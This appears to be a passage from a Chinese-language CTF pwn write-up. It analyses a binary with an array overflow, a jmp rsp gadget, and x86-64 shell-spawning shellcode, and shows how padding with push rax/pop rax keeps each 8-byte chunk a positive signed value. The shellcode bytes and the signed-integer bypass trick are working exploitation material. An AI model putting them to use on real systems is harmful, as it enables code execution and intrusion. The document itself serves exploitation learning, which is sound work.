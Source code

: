 该程序先分配80个字节，但是v4是int64类型的，而且复制了20次，那么就会存在数组越界。再看readll函数。

```
__int64 readll()
{
  char nptr[8]; // [rsp+0h] [rbp-20h]
  __int64 v2; // [rsp+8h] [rbp-18h]
  int v3; // [rsp+10h] [rbp-10h]
  int v4; // [rsp+18h] [rbp-8h]
  int i; // [rsp+1Ch] [rbp-4h]

  *(_QWORD *)nptr = 0LL;
  v2 = 0LL;
  v3 = 0;
  v4 = 0;
  for ( i = 0; read(0, &nptr[i], 1uLL) > 0 && i <= 19 && nptr[i] != 10; ++i )
;
  return atoll(nptr);
} 
```

最多读取19位，然后变为long long int变量。还存在有一个gitt函数。

```
push rbp
mov rbp, rsp
jmp rsp 
```

可以jmp rsp，那么就可以植入shellcode来运行。

还存在一个问题，比如我植入的是下面的shellcode。

```
#\x6a\x42\x58\xfe
#\xc4\x48\x99\x52
#\x48\xbf\x2f\x62
#\x69\x6e\x2f\x2f
#\x73\x68\x57\x54
#\x5e\x49\x89\xd0
#\x49\x89\xd2\x0f
#\x05 
```

那么就是可能会发送到0xd089495e54576873，这个有符号整形，会变成负数。可以通过发送符号要求的shellcode，这个找起来比较麻烦，所以可以改造一下。

可以插入一些没有意义的指令，比如0x90，但是这个也会变成负数，可以插入50 58，即push rax,pop rax，那么就可以绕过刚刚那个限制了。

原先的shellcode

```
push 42h         6a 42
pop rax         58
inc ah         FE C4
cqo        48 99
pushrdx        52
mov rdi, 68732F2F6E69622Fh     48 BF 2F 62 69 6E 2F 2F 73 68
push rdi        57
push rsp        54
pop rsi        5e 
mov r8, rdx         49 89 d0
mov r10, rdx        49 89 d2
syscall       0f 5 
```
